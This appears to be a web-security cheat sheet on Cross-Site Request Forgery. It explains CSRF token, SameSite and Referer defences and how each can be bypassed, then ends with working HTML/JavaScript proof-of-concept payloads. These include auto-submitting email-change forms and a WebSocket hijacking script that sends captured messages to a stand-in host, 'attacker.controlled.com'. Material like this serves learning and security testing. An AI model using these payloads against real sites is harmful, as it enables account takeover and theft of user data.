 # Cross-Site Request Forgery

Make a user perform actions that they do not intend to perform. Such as, changing Email, changing password, do a money transfer, or send requests to outside urls. The attacker will most likely use a malicious webpage that contains some javascript that triggers the CSRF attack.

### Conditions

- There must be a relevant action for the attacker to take over
- Solely cookie-based session handling
- No unpredictable request parameters

View all my Proof of Concepts [here](#proof-of-concepts)

## Protections & Vulnerabilities

### CSRF tokens
CSRF tokens are generated server side and shared with the client. Before every sensitive action, it checks if the token is correct.
- Quite effective

> Sometimes the implementation has some common flaws that make the application vulnerable:
> - Validation of the CSRF token is skipped when `GET` is used instead of `POST` [PoC](#no-crsf-token-using-get)
> - No validation when CSRF token is not present
> - CSRF token not tied to user, so attacker can use their own token for the payload
> - Maybe the CSRF token is tied to some session-independent cookie (or CSRF token cookie double), so if there is any set-cookie exploit within the domain, it is exploitable

### SameSite cookies
[SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value) is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. Since sensitive actions propably require an authenticated cookie. Options are "Strict", "Lax", and "None".
- Chrome has `SameSite=Lax` restrictions by default (after 120 seconds on top-level `POST` requests, to make SSO work). "Lax" only sends cross-site cookies if a top-level navigation by the user issues a `GET` request
- Quite effective

> SameSite Lax is not always the best
> - If a website can use `GET` requests for sensitive operations, you can use `window.location = 'url'` to bypass "Lax" restrictions [PoC](#lax--get--method-override)
> - Some frameworks (e.g. [Symfony](https://symfony.com/doc/current/reference/forms/types/form.html#method)) allow the method to be overridden with the "_method" parameter in the form
> - Exploit the 120 second window for default "Lax", refresh the login, then exploit [PoC](#default-lax--sso)
>
> SameSite Strict can still be vulnerable
> - Client-side redirects are same-site, so it will include the cookies, so maybe a user controlled url is used in a client-sided redirect somewhere on the site
> - Or use [XSS](./xss.md) to elicit arbitrary secondary requests to compromise all site-based defenses
> - If websockets are used, it maybe is vulnerable to cross-site WebSocket hijacking, which targets the websocket handshake [PoC](#cross-site-websocket-hijacking)
 
### Referer-based validation
Check the [Referer header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) to see if the request originated from the application's own domain.
- Not very effective

> Using the Referer header as CSRF protection is not very good
> - Sometimes validation is skipped if the header is omitted [PoC](#referer-omitted)
> - If only checked if the referer contains the site, you can append it to the current url with `/?website`. Must use `Referrer-Policy: unsafe-url` when doing this [PoC](#referer-modified)

## Proof of Concepts

### General | CSRF token | Method override
```html
<html>
    <body>
        <form method="POST" action="https://vulnerable-website.com/email/change">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="xxxx" />
            <input type="hidden" name="_method" value="GET">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### No CRSF token using GET
```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

### Lax | GET | Method override
```html
<script>
    window.location = 'https://vulnerable-website.com/email/change?_method=POST&email=pwned@evil-user.net';
</script>
```

### Cross-Site WebSocket Hijacking
```html
<script>
    var ws = new WebSocket('wss://vulnerable-website.com/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker.controlled.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

### Default Lax | SSO
```html
<form method="POST" action="https://vulnerable-website.com/email/change">
    <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
<p>Click anywhere</p>
<script>
    window.onclick = () => {
        window.open('https://vulnerable-website.com/login/sso');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

### Referer omitted
```html
<meta name="referrer" content="never">
```

### Referer modified
Use header `Referrer-Policy: unsafe-url` on malicious website
```html
<script>
    history.pushState("", "", "/?vulnerable-website.com")
</script>
```